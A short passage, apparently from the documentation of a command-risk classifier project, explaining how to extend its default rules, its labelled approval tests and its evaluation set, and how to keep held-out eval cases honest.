and fails until the code matches.

## Extending

Add a rule to `RuleRiskClassifier.defaultRules` with a reason a human would accept, and a case to the
labelled set in `ApprovalTests`. Add commands to `ClassifierEvalTests.labelled` when the model gets one
wrong, so the eval tracks it; keep held-out cases that do not resemble the instruction examples, or the
score measures recognition rather than judgement. Change the instructions only with a before-and-after
eval run in the commit message.
